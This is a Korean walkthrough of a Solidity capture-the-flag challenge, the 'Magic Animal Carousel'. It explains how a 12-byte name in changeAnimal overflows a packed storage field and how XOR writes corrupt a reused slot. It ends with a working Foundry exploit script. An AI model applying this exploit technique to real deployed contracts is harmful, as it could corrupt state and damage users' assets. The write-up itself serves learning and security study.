

## 문제
### 지문
Welcome, dear Anon, to the Magic Carousel, where creatures spin and twirl in a boundless spell. In this magical, infinite digital wheel, they loop and whirl with enchanting zeal.
Add a creature to join the fun, but heed the rule, or the game’s undone. If an animal joins the ride, take care when you check again, that same animal must be there!
Can you break the magic rule of the carousel?
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();
    error CrateNotInitialized();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        uint256 crate = carousel[crateId];
        require(crate != 0, CrateNotInitialized());
        
        address owner = address(uint160(crate & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```
## 배경지식
---
`carousel`는 `mapping(uint256 => uint256)`이지만, 실제로는 하나의 `uint256` 안에 세 필드를 직접 넣어 쓴다.
```plain text
| animal: 80 bits | nextCrateId: 16 bits | owner: 160 bits |
|   상위 10 bytes  |       2 bytes        |    하위 20 bytes |
```
마스크도 이 구조에 맞춰져 있다. `OWNER_MASK`는 하위 160비트를, `NEXT_ID_MASK`는 그 위의 16비트를, `ANIMAL_MASK`는 최상위 80비트를 가리킨다. Solidity에서 `<< 160 + 16`은 `<< (160 + 16)`으로 계산되므로 `ANIMAL_MASK`는 176비트만큼 왼쪽으로 이동한 값이다.
---
`encodeAnimalName`은 최대 12바이트 문자열을 `bytes32`의 상위 바이트에 넣고 160비트 오른쪽으로 민다.
```solidity
return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
```
결과적으로 반환값은 최대 12바이트, 즉 96비트다. 문제는 동물 이름 필드가 10바이트, 즉 80비트만 준비되어 있다는 점이다.
`setAnimalAndSpin`은 `encodeAnimalName(animal) >> 16`을 사용해서 하위 2바이트를 버린다. 그래서 12바이트 입력이 와도 앞의 10바이트만 동물 이름 필드에 들어간다.
반면 `changeAnimal`은 `encodeAnimalName(animal)`을 그대로 `<< 160` 한다. 12바이트 값 전체가 올라가므로 앞 10바이트는 `animal` 필드에 들어가고, 뒤 2바이트는 `nextCrateId` 필드까지 침범한다.
---
`setAnimalAndSpin`은 새 동물을 저장할 때 단순히 기존 동물 필드를 지우고 대입하지 않는다.
```solidity
(carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
```
여기서는 `NEXT_ID_MASK`만 지운다. 기존 crate에 이미 동물 값이 있으면 그 값은 남아 있고, 새 동물 값과 XOR된다. 빈 crate라면 `0 ^ x = x`라서 정상 저장처럼 보이지만, 비어 있지 않은 crate라면 결과가 입력값과 달라질 수 있다.
## 문제 코드 분석
---
먼저 초기 상태를 보자.
```solidity
uint16 constant public MAX_CAPACITY = type(uint16).max;
uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
uint256 constant OWNER_MASK = uint256(type(uint160).max);

uint256 public currentCrateId;
mapping(uint256 crateId => uint256 animalInside) public carousel;

constructor() {
    carousel[0] ^= 1 << 160;
}
```
배포 직후 `currentCrateId`는 0이다. 생성자에서 `carousel[0]`의 160번째 비트만 켜기 때문에, crate 0의 `nextCrateId`는 1이 된다. 즉 첫 번째 `setAnimalAndSpin` 호출은 crate 1에 동물을 넣도록 시작 상태를 만들어둔 것이다.
---
이제 `setAnimalAndSpin` 흐름을 보자.
```solidity
function setAnimalAndSpin(string calldata animal) external {
    uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
    uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

    require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
    carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
        | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

    currentCrateId = nextCrateId;
}
```
먼저 현재 crate에서 `NEXT_ID_MASK`만 뽑아 다음 crate 번호를 구한다. 그리고 그 다음 crate에 동물 이름, 다음 포인터, 소유자를 저장한다.
이 코드는 새로 쓸 crate가 비어 있다고 가정한다. `carousel[nextCrateId] & ~NEXT_ID_MASK`는 기존 `nextCrateId` 필드만 지우고 나머지는 유지한다. 여기에 동물 이름을 XOR하므로, 이미 동물 이름이 들어 있던 crate를 다시 쓰게 만들면 저장 결과가 입력한 동물 이름과 달라진다.
목표는 `setAnimalAndSpin`이 이미 값이 있는 crate로 다시 돌아오게 만드는 것이다.
---
다음은 `changeAnimal`이다.
```solidity
function changeAnimal(string calldata animal, uint256 crateId) external {
    uint256 crate = carousel[crateId];
    require(crate != 0, CrateNotInitialized());
    
    address owner = address(uint160(crate & OWNER_MASK));
    if (owner != address(0)) {
        require(msg.sender == owner);
    }
    uint256 encodedAnimal = encodeAnimalName(animal);
    if (encodedAnimal != 0) {
        carousel[crateId] =
            (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
    } else {
        carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
    }
}
```
`changeAnimal`은 crate의 owner가 있으면 owner만 호출할 수 있다. 하지만 우리가 `setAnimalAndSpin`으로 만든 crate는 owner가 우리 주소가 되므로, 우리가 직접 수정할 수 있다.
`changeAnimal`은 `encodedAnimal`에 `>> 16`을 하지 않는다. 12바이트 문자열을 넣으면 `encodedAnimal << 160`의 하위 2바이트가 `nextCrateId` 위치에 들어간다.
`| (carousel[crateId] & NEXT_ID_MASK)`도 봐야 한다. 기존 `nextCrateId`와 새로 침범한 2바이트가 OR된다. 그래서 정확히 원하는 작은 값을 만들기는 어렵지만, `0xffff`처럼 모든 비트가 1인 값은 확실히 만들 수 있다.
## 풀이
목표는 이미 초기화된 crate 1로 `setAnimalAndSpin`이 다시 돌아오게 만드는 것이다. crate 1에는 이전 동물 값이 남아 있어야 하고, 마지막 호출에서 그 값과 새 동물 값이 XOR되어야 한다.
먼저 `setAnimalAndSpin("Dog")`를 호출한다고 하자. 초기 상태에서 crate 0의 다음 포인터가 1이므로, 이 호출은 crate 1을 초기화한다. 호출 후 상태는 대략 이렇게 된다.
```plain text
currentCrateId = 1
carousel[1].animal = encode("Dog") >> 16
carousel[1].nextCrateId = 2
carousel[1].owner = attacker
```
이제 crate 1의 owner가 우리 주소이므로 `changeAnimal`을 호출할 수 있다. 여기서 12바이트 값을 넣어 뒤 2바이트가 `nextCrateId` 필드에 들어가게 만든다.
```solidity
string(abi.encodePacked(hex"10000000000000000000ffff"))
```
이 값은 12바이트다. 앞 10바이트인 `0x10000000000000000000`은 crate 1의 동물 필드에 들어가고, 뒤 2바이트인 `0xffff`는 `nextCrateId` 필드에 들어간다. 기존 next 값과 OR되더라도 `0xffff`는 그대로 `0xffff`다.
따라서 `changeAnimal` 이후 crate 1은 다음 상태가 된다.
```plain text
currentCrateId = 1
carousel[1].animal = 0x10000000000000000000
carousel[1].nextCrateId = 0xffff
carousel[1].owner = attacker
```
다음으로 `setAnimalAndSpin("Parrot")`처럼 임의의 동물을 한 번 더 넣는다. 현재 crate가 1이고, crate 1의 다음 포인터를 `0xffff`로 바꿔두었으므로 이번 호출은 crate `0xffff`에 동물을 저장한다.
이때 crate `0xffff`의 다음 포인터는 아래 식으로 계산된다.
$$
(0xffff + 1) \bmod 0xffff = 1
$$
그래서 호출 후에는 `currentCrateId`가 `0xffff`가 되고, crate `0xffff`는 다시 crate 1을 가리키게 된다.
```plain text
currentCrateId = 0xffff
carousel[0xffff].nextCrateId = 1
```
이제 준비는 끝났다. 다음 `setAnimalAndSpin(animal)` 호출은 crate `0xffff`의 다음 포인터를 읽고 crate 1에 다시 쓰게 된다. 그런데 crate 1은 비어 있지 않다. 동물 필드에 `0x10000000000000000000`이 남아 있다.
따라서 마지막 호출에서 crate 1의 동물 필드는 단순히 `animal`의 인코딩으로 저장되지 않고, 기존 값과 XOR된 값이 된다.
$$
newAnimal = 10000000000000000000 \oplus (encodeAnimalName(animal) >> 16)
$$
이 값은 일반적으로 `encodeAnimalName(animal) >> 16`과 다르다. 그래서 마지막 호출 후 crate 1에 저장된 동물 값은 방금 넣은 값과 달라진다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IMagicAnimalCarousel {
    function setAnimalAndSpin(string calldata animal) external;
    function changeAnimal(string calldata animal, uint256 crateId) external;
}

contract Sol33 is Script {
    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        IMagicAnimalCarousel target = IMagicAnimalCarousel(vm.envAddress("MAGIC_ANIMAL_CAROUSEL_INSTANCE"));

        vm.startBroadcast(privateKey);

        target.setAnimalAndSpin("Dog");
        target.changeAnimal(string(abi.encodePacked(hex"10000000000000000000ffff")), 1);
        target.setAnimalAndSpin("Parrot");
        target.setAnimalAndSpin("Cat");

        vm.stopBroadcast();
    }
}
```

